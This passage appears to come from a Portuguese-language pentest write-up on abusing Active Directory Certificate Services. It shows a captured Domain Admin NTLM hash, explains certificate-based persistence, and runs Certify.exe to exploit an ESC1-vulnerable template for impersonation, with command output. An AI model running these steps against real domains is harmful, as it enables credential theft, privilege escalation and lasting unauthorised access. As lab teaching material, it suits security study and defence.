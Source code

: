 ```powershell
        EncryptionType       : rc4_hmac
        CredentialData       :
        CredentialCount    : 1
        NTLM              : **E15E48546D35C3F2EF7FB995A4A9548E**
```

Como podem ver, consegui capturar a hash ntlm do meu usuario que é owner da template que utilizei e também é Domain Admin dentro do ambiente, e como eu disse não importa quantas vezes o usuario mude de senha, você sempre ira capturar a hash atual e tudo isso sem nem tocarmos no processo **LSASS**.

<br>

## Persistence by user certificate

Também é possivel gerar persistencia no ambiente, atraves de certificados para o usuario. A ideia aqui é que você já tenha um alto acesso dentro do ambiente como Domain Admin, para emitir esse certificado no nome de um usuario de alto privilegio que você queira manter o acesso.

<br>

O step-by-step seria:
- Possuir acesso a um usuario de alto privilegio(i.e DA & EA)
- Solicitar um certificado para aquele usuario em uma template que permite **Client Authentication**

<br>

Por padrão o ADCS tem algumas templates que permite **Client Authentication** como a template **User** que é a template que iremos utilizar para gerar o certificado para o nosso usuario. Geralmente esses certificados tem a validade de 1 ano, porém quando estiver para expirar você pode simplesmente reemitir o mesmo.

<br>

No contexto abaixo, estou com um usuario low priv no meu ambiente, vou estar emitindo o certificado em nome de uma template que é vulneravel a ESC1, o que dara um ticket com o usuario Domain Admin, que será nosso alvo de persistencia.

```powershell
.\Certify.exe request /ca:CORP-DC.CORP.LOCAL\CORP-CA /template:"CORP - Kerberos Authentication" /altname:paulo.victor

    
     _____          _   _  __
    / ____|        | | (_)/ _|
    | |     ___ _ __| |_ _| |_ _   _
    | |    / _ \ '__| __| |  _| | | |
    | |___|  __/ |  | |_| | | | |_| |
     \_____\___|_|   \__|_|_|   \__,|
                                __/ |
                                |___/
    v1.0.0

    [*] Action: Request a Certificates

    [*] Current user context    : CORP\danielmoura
    [*] No subject name specified, using current context as subject.

    [*] Template                : CORP - Kerberos Authentication
    [*] Subject                 : CN=Daniel Moura, OU=Usuarios, OU=Inferi, DC=CORP, DC=LOCAL
    [*] AltName                 : paulo.victor

    [*] Certificate Authority   : CORP-DC.CORP.LOCAL\CORP-CA

    [*] CA Response             : The certificate had been issued.
    [*] Request ID              : 21

```